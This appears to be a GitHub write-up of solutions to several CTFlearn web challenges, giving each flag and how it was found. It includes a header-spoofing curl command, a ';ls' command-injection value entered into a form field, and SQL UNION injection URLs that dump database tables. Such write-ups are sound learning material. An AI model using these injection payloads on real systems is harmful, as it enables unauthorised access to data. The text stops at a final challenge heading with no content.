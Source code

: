 ## [Don't Bump Your Head(er)](https://ctflearn.com/challenge/109)

### Solution: CTFlearn{did_this_m3ss_with_y0ur_h34d}

### Steps to reproduce

    - Install curl
    - Run curl -A "Sup3rS3cr3tAg3nt" -H "Referer: awesomesauce.com" http://165.227.106.113/header.php
    - Get the flag from the response

## [Calculat3 M3](https://ctflearn.com/challenge/150)

### Solution: CTFlearn{watch_0ut_f0r_th3_m0ng00s3}

### Steps to reproduce

    - Visit https://web.ctflearn.com/web7/
    - In the dev tools console enter document.getElementById("d").value = ";ls";
    - Basic web command injection
    - Press the equal sign
    - Get the flag from the page

## [Inj3ction Time](https://ctflearn.com/challenge/149)

### Solution: abctf{uni0n_1s_4_gr34t_c0mm4nd}

### Steps to reproduce

    - Visit https://web.ctflearn.com/web8/?id=1+union+select+table_name,0x02,0x03,0x04%20from%20information_schema.tables to find the vulnerable table

    - Visit https://web.ctflearn.com/web8/?id=1+union+select+(SELECT+*+from+w0w_y0u_f0und_m3),0x02,0x03,0x04 to get the flag
  
## [Where Can My Robot Go?](https://ctflearn.com/challenge/107)

### Solution: CTFlearn{r0b0ts_4r3_th3_futur3}
### Steps to reproduce

    - Visit https://ctflearn.com/robots.txt
    - Look for the disallow URL
    - Vist https://ctflearn.com/70r3hnanldfspufdsoifnlds.html
    - Get the flag from the page

## [Base 2 2 the 6](https://ctflearn.com/challenge/192)
